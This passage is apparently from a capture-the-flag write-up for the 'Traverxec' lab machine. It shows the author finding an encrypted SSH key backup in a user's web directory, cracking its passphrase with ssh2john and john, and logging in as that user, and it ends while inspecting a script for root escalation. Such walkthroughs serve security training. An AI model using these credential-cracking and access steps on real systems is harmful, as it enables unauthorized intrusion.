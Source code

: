 ```
# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```
As we can see homedirs are allowed into the webserver, so probably this meas that www-data may have a chance to see content of user directories.  
we can navigate to:
```
www-data@traverxec:/home/david/public_www/protected-file-area$ ls -la
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```
The file ```backup-ssh-identity-files.tgz``` defenetly looks juicy, so let's start looking into it.  
Inside the backup archive, we can see an id_rsa file. Obviously this file is encrypted, so let's use ssh2john and john to crack the file:  
```
[root@kali .ssh ]$ ssh2john id_rsa > id_rsa_david.hash             
[root@kali .ssh ]$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_david.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2022-03-28 16:05) 100.0g/s 14400p/s 14400c/s 14400C/s carolina..sandra
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now that we have a password for the key, we can use it to log in as david:  
```
[root@kali .ssh ]$ ssh -l david -i id_rsa $TARGET                  
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
david@traverxec:~$
```

## Root
As we log in we can notice inside the user folder a ```bin/``` directory which is odd.  
If we inspect the directory, we can see the following script:  
```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
```